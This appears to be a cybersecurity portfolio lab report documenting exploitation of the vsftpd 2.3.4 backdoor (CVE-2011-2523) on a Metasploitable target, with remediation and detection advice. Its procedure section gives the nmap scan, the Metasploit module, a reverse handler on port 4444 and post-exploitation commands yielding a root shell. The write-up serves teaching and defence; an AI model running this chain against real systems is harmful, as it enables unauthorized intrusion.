








# Lab 06 — Vulnerability Exploitation

> **Cybersecurity Portfolio — Luis Germán Toro Pareja**

## Overview

This laboratory demonstrates a controlled vulnerability exploitation workflow against a deliberately vulnerable system in an isolated cybersecurity laboratory environment.

The exercise follows a structured penetration-testing sequence: target validation, service and version enumeration, vulnerability selection, controlled exploitation, session validation, limited post-exploitation verification, and controlled session closure.

The primary vulnerability investigated in this laboratory is the backdoor associated with **vsftpd 2.3.4**, commonly identified as **CVE-2011-2523**. The National Vulnerability Database documents the affected vsftpd 2.3.4 release and the associated backdoor behavior. [NVD — CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523?utm_source=chatgpt.com)

> **Ethical and Legal Notice:**
> All activities documented in this laboratory were performed against an intentionally vulnerable system in an isolated and authorized laboratory environment for educational, research, and professional development purposes. The techniques demonstrated here must not be applied to systems without explicit authorization.

---

## 1. Objective

The main objective of this laboratory is to demonstrate the practical exploitation of a known vulnerability in a deliberately vulnerable Linux system while following a controlled and documented security-testing methodology.

The laboratory focuses on:

* Validating connectivity with the target.
* Enumerating exposed network services and versions.
* Identifying a vulnerable FTP service.
* Validating the selected attack surface before exploitation.
* Using Metasploit Framework to execute a controlled exploit.
* Establishing and validating a Meterpreter session.
* Confirming the privileges obtained on the target.
* Performing limited post-exploitation information gathering.
* Closing the session in a controlled manner.
* Documenting the complete attack chain using reproducible evidence.

---

## 2. Scope

The scope of this laboratory was limited to the intentionally vulnerable target identified as:

```text
Target IP: 10.0.2.4
```

The observed exploitation path focused on the FTP service running:

```text
vsftpd 2.3.4
```

The exercise did not include unauthorized systems, external infrastructure, persistence mechanisms, lateral movement, or actions outside the controlled laboratory target.

---

## 3. Laboratory Environment

The exercise was performed using a controlled virtualized cybersecurity laboratory.

### Attacker

The attacker environment was Kali Linux.

Observed attacker address during the exploitation process:

```text
10.0.2.6
```

### Target

The vulnerable target was the Metasploitable system identified during the post-exploitation phase as:

```text
metasploitable.localdomain
```

The captured system information identified:

```text
Operating System: Ubuntu 8.04
Kernel: Linux 2.6.24-16-server
Architecture: i686
Meterpreter platform: x86/linux
```

### Network

The target was reachable from the attacker through the laboratory network.

Target:

```text
10.0.2.4
```

Attacker:

```text
10.0.2.6
```

The initial connectivity test successfully returned ICMP responses with no packet loss.



---

## 4. Technologies and Tools

The following technologies and tools are directly evidenced in the laboratory:

| Technology / Tool    | Purpose                                   |
| -------------------- | ----------------------------------------- |
| Kali Linux           | Attacker and security-testing platform    |
| Nmap                 | Network service and version enumeration   |
| Metasploit Framework | Vulnerability validation and exploitation |
| Meterpreter          | Post-exploitation session validation      |
| FTP / vsftpd         | Vulnerable target service                 |
| Metasploitable       | Deliberately vulnerable target            |

---

## 5. Vulnerability Identified

The service enumeration phase identified an FTP service running:

```text
vsftpd 2.3.4
```

The Nmap results also showed that anonymous FTP access was allowed.

Relevant enumeration output included:

```text
21/tcp open ftp vsftpd 2.3.4
```

and:

```text
Anonymous FTP login allowed
```

The same scan identified additional exposed services, including SSH, Telnet, and SMTP. However, the exploitation path documented in this laboratory focused on the FTP service.



### CVE Reference

The vulnerable `vsftpd 2.3.4` backdoor is associated with:

```text
CVE-2011-2523
```

NVD describes the issue as a backdoor present in affected `vsftpd 2.3.4` distributions and assigns a CVSS v3.1 base score of 9.8 (Critical). [NVD — CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523?utm_source=chatgpt.com)

---

## 6. Methodology

The laboratory followed the following workflow:

```text
Target Validation
        ↓
Service Enumeration
        ↓
Vulnerability Selection
        ↓
Service Validation
        ↓
Metasploit Configuration
        ↓
Controlled Exploitation
        ↓
Meterpreter Session
        ↓
Privilege Validation
        ↓
Post-Exploitation Verification
        ↓
Session Closure
```

This sequence provides a clear separation between reconnaissance, validation, exploitation, and post-exploitation activities.

---

# 7. Procedure

## 7.1 Target Validation

The first step was to confirm network reachability to the target.

The observed command was:

```bash
ping -c 4 10.0.2.4
```

The target responded successfully to all four ICMP requests.

Observed result:

```text
4 packets transmitted, 4 received, 0% packet loss
```

This confirmed that the target was reachable before continuing with service enumeration.

### Evidence


---

## 7.2 Service and Version Enumeration

Nmap was used to identify exposed services and their versions.

The documented command was:

```bash
nmap -sV 10.0.2.4
```

The scan identified:

```text
21/tcp open  ftp     vsftpd 2.3.4
22/tcp open  ssh     OpenSSH 4.7p1 Debian Ubuntu 1
23/tcp open  telnet
25/tcp open  smtp    Postfix smtpd
```

The FTP service reported:

```text
Anonymous FTP login allowed
```

The discovery of `vsftpd 2.3.4` provided the basis for selecting the vulnerability used in the subsequent exploitation phase.

### Evidence


---

## 7.3 Launching Metasploit Framework

Metasploit Framework was launched from Kali Linux using:

```bash
msfconsole
```

The captured environment showed:

```text
metasploit v6.4.116-dev
```

This framework was subsequently used to validate the identified FTP attack surface and execute the controlled exploitation.

### Evidence



---

## 7.4 FTP Service Validation

Before executing the vulnerability-specific exploit, the FTP service was validated using the Metasploit anonymous FTP scanner:

```text
auxiliary/scanner/ftp/anonymous
```

The target was configured as:

```text
RHOSTS 10.0.2.4
```

The scanner completed successfully against the target.

This step provided an additional validation layer between initial reconnaissance and exploitation.

### Evidence



---

## 7.5 Controlled Exploitation

The vulnerability-specific Metasploit module used during the exercise was:

```text
exploit/unix/ftp/vsftpd_234_backdoor
```

The exploitation process established a reverse TCP handler on:

```text
10.0.2.6:4444
```

The captured result showed successful session creation:

```text
Meterpreter session opened
```

with the connection originating from the target:

```text
10.0.2.4
```

This demonstrated successful exploitation of the vulnerable service within the controlled laboratory environment.

### Evidence



---

# 8. Session Validation

After successful exploitation, the Meterpreter session was validated to determine the identity and system characteristics associated with the obtained access.

The following command was used:

```text
getuid
```

The result showed:

```text
Server username: root
```

The system information was also collected with:

```text
sysinfo
```

The captured information identified:

```text
Computer    : metasploitable.localdomain
OS          : Ubuntu 8.04
Architecture: i686
BuildTuple  : i486-linux-musl
Meterpreter : x86/linux
```

The root directory was also enumerated using:

```text
ls
```

This confirmed access to the target filesystem.

### Evidence



---

# 9. Post-Exploitation Verification

The post-exploitation phase was intentionally limited to validating the level of access obtained and identifying basic system information.

The current working directory was checked with:

```text
pwd
```

The target filesystem was listed with:

```text
ls
```

A system shell was then opened:

```text
shell
```

Within the shell, the following commands were used:

```bash
whoami
hostname
id
```

The captured results confirmed:

```text
whoami
root
```

```text
hostname
metasploitable
```

and:

```text
id
uid=0(root) gid=0(root)
```

These results provide direct evidence that the exploitation resulted in command execution with root-level privileges on the vulnerable target.

### Evidence



---

# 10. Findings

## Finding 01 — Vulnerable FTP Service

**Affected service:**

```text
vsftpd 2.3.4
```

**Port:**

```text
21/tcp
```

**Protocol:**

```text
FTP
```

**Associated vulnerability:**

```text
CVE-2011-2523
```

**Severity:**

```text
Critical
```

NVD assigns a CVSS v3.1 base score of 9.8 to CVE-2011-2523. [NVD vulnerability record](https://nvd.nist.gov/vuln/detail/CVE-2011-2523?utm_source=chatgpt.com)

### Security Impact

The laboratory demonstrated that exploitation of the vulnerable service could result in remote command execution and a session running with root privileges.

The captured evidence confirms:

```text
Server username: root
```

and:

```text
uid=0(root) gid=0(root)
```

Therefore, in a real environment, successful exploitation of an affected service could have a severe impact on:

* Confidentiality
* Integrity
* Availability
* System administration
* Protection of sensitive information

---

## Finding 02 — Anonymous FTP Access

The service enumeration phase also identified:

```text
Anonymous FTP login allowed
```

Anonymous access increases the attack surface of the FTP service and should be evaluated carefully in production environments.

Although anonymous access was not the mechanism used to obtain the root session in this exercise, its presence represents an additional configuration concern identified during reconnaissance.

---

# 11. Risk Analysis

The principal risk demonstrated by this laboratory is the possibility of remote compromise of a vulnerable network service.

The attack path can be summarized as:

```text
Network Reachability
        ↓
Exposed FTP Service
        ↓
Outdated / Vulnerable vsftpd 2.3.4
        ↓
Known Backdoor
        ↓
Remote Exploitation
        ↓
Meterpreter Session
        ↓
Root Privileges
```

The practical consequence is significant because exploitation can move directly from a remotely accessible service to privileged operating-system access.

For the specific CVE, NVD records a CVSS v3.1 score of **9.8 (Critical)**. [NVD — CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523?utm_source=chatgpt.com)

---

# 12. Remediation Recommendations

The following recommendations are derived from the vulnerability and configuration weaknesses demonstrated during the laboratory.

## 12.1 Remove Vulnerable Software

The affected version of `vsftpd` should not be deployed in production.

Organizations should:

* Upgrade to a supported and secure version.
* Remove obsolete software when it is no longer required.
* Maintain an inventory of software versions.
* Monitor vendor security advisories.

---

## 12.2 Disable Unnecessary FTP Services

If FTP is not required, the service should be disabled and removed.

If file transfer functionality is required, organizations should evaluate secure alternatives and ensure that authentication, authorization, encryption, and network access controls are appropriately implemented.

---

## 12.3 Disable Anonymous FTP When Not Required

The observed configuration:

```text
Anonymous FTP login allowed
```

should be disabled unless there is a documented business requirement.

Access should follow the principle of least privilege.

---

## 12.4 Network Segmentation

Administrative and infrastructure services should not be unnecessarily exposed across untrusted network segments.

Firewall rules and network segmentation should restrict access to required services and authorized source systems.

---

## 12.5 Vulnerability Management

Organizations should continuously:

1. Identify exposed services.
2. Determine software versions.
3. Correlate versions with known vulnerabilities.
4. Prioritize critical findings.
5. Apply remediation.
6. Validate remediation through subsequent security testing.

---

## 12.6 Detection and Monitoring

A successful exploitation attempt against an FTP service should generate security telemetry that can be investigated by a SOC or security monitoring function.

Potential monitoring areas include:

* Unexpected FTP connections.
* Authentication anomalies.
* Connections to unusual destination ports.
* Creation of unexpected shell sessions.
* Privileged command execution.
* Unexpected processes spawned by network-facing services.
* Changes to system files.
* Suspicious outbound connections.

---

# 13. Evidence Summary

| #  | Evidence                               | Purpose                                                      |
| -- | -------------------------------------- | ------------------------------------------------------------ |
| 01 | `01-target-validation.png`             | Confirms target network reachability                         |
| 02 | `02-vulnerability-selection.png`       | Identifies exposed services and `vsftpd 2.3.4`               |
| 03 | `03-metasploit-framework.png`          | Shows Metasploit Framework initialization                    |
| 04 | `04-exploit-configuration.png`         | Validates FTP anonymous access                               |
| 05 | `05-controlled-exploitation.png`       | Demonstrates successful exploitation and Meterpreter session |
| 06 | `06-session-validation.png`            | Confirms Meterpreter access and root identity                |
| 07 | `07-post-exploitation-information.png` | Confirms shell access and root privileges                    |
| 08 | `08-session-closure.png`               | Confirms controlled session termination                      |

---

# 14. Session Closure

After completing the required validation activities, the Meterpreter session was closed using:

```text
exit
```

The captured result showed:

```text
Meterpreter session closed. Reason: User exit.
```

A subsequent session check confirmed:

```text
Active sessions
===============

No active sessions.
```

This confirms that the exploitation session was properly terminated at the end of the exercise.

### Evidence



---

# 15. Technical Analysis

This laboratory demonstrates the importance of maintaining a structured exploitation methodology.

The successful result did not depend exclusively on the exploitation framework. The attack chain began with basic network validation and service enumeration.

The sequence provided several opportunities to identify and validate the security condition before exploitation:

```text
1. Confirm connectivity.
2. Identify exposed services.
3. Determine service versions.
4. Identify a potentially vulnerable service.
5. Validate the FTP configuration.
6. Select the appropriate exploitation module.
7. Execute the exploit in a controlled environment.
8. Validate the resulting session.
9. Confirm privileges.
10. Close the session.
```

From a professional penetration-testing perspective, this sequence demonstrates the value of evidence-based decision making.

Rather than immediately attempting exploitation, the laboratory first established that the target was reachable, identified the exposed FTP service, determined the software version, and validated the relevant service configuration.

---

# 16. Security Lessons Learned

This laboratory reinforces several practical cybersecurity principles.

### 16.1 Service Version Identification Matters

Knowing that a service is running is not sufficient.

The exact version can determine whether a known vulnerability is applicable.

In this case:

```text
FTP → vsftpd → 2.3.4
```

provided the key information required for vulnerability selection.

### 16.2 Vulnerability Validation Should Precede Exploitation

The anonymous FTP scanner was used before executing the vulnerability-specific exploitation module.

This demonstrates a layered approach to validation.

### 16.3 Exploitation Must Be Controlled

The objective of exploitation in a professional assessment is not simply obtaining access.

The tester must:

* Remain within scope.
* Minimize unnecessary impact.
* Collect only the evidence required to demonstrate the finding.
* Avoid destructive actions.
* Close sessions after testing.
* Document the complete process.

### 16.4 Privilege Validation Is Essential

Obtaining a session does not automatically explain its security impact.

The commands:

```text
getuid
```

and:

```bash
id
```

confirmed that the resulting access was associated with:

```text
root
uid=0(root)
```

This significantly increases the severity of the demonstrated compromise.

### 16.5 Session Cleanup Is Part of Professional Testing

The final evidence confirms that the Meterpreter session was explicitly closed and that no active sessions remained.

This reinforces the importance of controlled cleanup after an authorized security assessment.

---

# 17. MITRE ATT&CK Relevance

The activity demonstrated in this laboratory can be related conceptually to several MITRE ATT&CK techniques.

| Technique                                     | Relevance                                                                                                                    |
| --------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| T1046 — Network Service Scanning              | Nmap was used to identify exposed network services                                                                           |
| T1190 — Exploit Public-Facing Application     | The exercise demonstrated exploitation of a remotely accessible network service                                              |
| T1059 — Command and Scripting Interpreter     | A system shell was obtained during post-exploitation validation                                                              |
| T1068 — Exploitation for Privilege Escalation | Not directly demonstrated as a separate privilege-escalation step; root access was obtained as part of the exploited service |

The MITRE mapping is included as a conceptual classification of the observed activities and should not be interpreted as evidence that every technique was independently executed during the laboratory.

---

# 18. Professional Relevance

This laboratory demonstrates practical capabilities relevant to vulnerability assessment and offensive security activities, including:

* Network reconnaissance.
* Service enumeration.
* Version identification.
* Vulnerability validation.
* Exploitation methodology.
* Metasploit Framework usage.
* Session management.
* Privilege validation.
* Post-exploitation analysis.
* Security evidence collection.
* Risk interpretation.
* Remediation planning.
* Professional documentation.

The laboratory also demonstrates the relationship between vulnerability identification and real security impact.

A vulnerable service becomes significantly more important when exploitation can be demonstrated and the resulting privileges can be validated.

---

# 19. Conclusions

This laboratory successfully demonstrated a complete controlled vulnerability-exploitation workflow against a deliberately vulnerable target.

The assessment began by validating connectivity to the target and enumerating its exposed services. The FTP service was identified as running `vsftpd 2.3.4`, providing the basis for investigating the associated backdoor vulnerability.

Metasploit Framework was then used to validate the FTP configuration and execute the corresponding `vsftpd 2.3.4` exploitation module.

The exploitation successfully established a Meterpreter session from the target to the attacker environment.

Post-exploitation validation confirmed:

```text
Server username: root
```

and:

```text
uid=0(root) gid=0(root)
```

This demonstrates that the vulnerable service could result in highly privileged remote access to the target system.

Finally, the Meterpreter session was explicitly closed and the session list confirmed that no active sessions remained.

The exercise therefore demonstrates the complete progression:

```text
Reconnaissance
    ↓
Enumeration
    ↓
Vulnerability Identification
    ↓
Validation
    ↓
Controlled Exploitation
    ↓
Session Establishment
    ↓
Privilege Validation
    ↓
Post-Exploitation Verification
    ↓
Controlled Cleanup
```

The principal security lesson is that exposed and outdated network services can represent a critical attack surface. Effective vulnerability management therefore requires not only identifying vulnerable software, but also validating exploitability, understanding the resulting impact, remediating the condition, and verifying that the vulnerability has been addressed.

---

## 20. References

* National Vulnerability Database — CVE-2011-2523:
  [NVD — CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523?utm_source=chatgpt.com)

* Metasploit Framework documentation:
  [Metasploit Documentation](https://docs.metasploit.com/?utm_source=chatgpt.com)

* Nmap documentation:
  [Nmap Documentation](https://nmap.org/docs.html?utm_source=chatgpt.com)

---

## 21. Evidence Directory

All laboratory evidence is stored in the following directory:

```text
images/
```

Current evidence set:

```text
images/
├── 01-target-validation.png
├── 02-vulnerability-selection.png
├── 03-metasploit-framework.png
├── 04-exploit-configuration.png
├── 05-controlled-exploitation.png
├── 06-session-validation.png
├── 07-post-exploitation-information.png
└── 08-session-closure.png
```

The evidence naming convention follows the chronological order of the laboratory workflow and is intended to make the assessment easy to review and reproduce.

